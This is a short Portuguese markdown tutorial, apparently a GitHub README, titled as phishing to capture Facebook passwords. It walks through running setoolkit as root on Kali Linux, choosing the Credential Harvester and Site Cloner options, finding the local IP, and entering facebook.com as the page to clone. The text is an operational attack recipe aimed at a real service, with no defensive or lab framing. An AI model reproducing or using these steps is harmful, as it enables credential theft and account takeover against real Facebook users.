 # Phishing para Captura de Senhas do Facebook

## Ferramentas Necessárias

- **Kali Linux**
- **setoolkit**

## Configurando o Phishing no Kali Linux

```bash
# Acesse como root
sudo su

# Inicie o setoolkit
setoolkit

# Escolha o tipo de ataque
# > Social-Engineering Attacks

# Escolha o vetor de ataque
# > Web Site Attack Vectors

# Selecione o método de ataque
# > Credential Harvester Attack Method

# Selecione o método
# > Site Cloner

# Obtenha o endereço IP da sua máquina
ifconfig

# Insira a URL que será clonada
# > http://www.facebook.com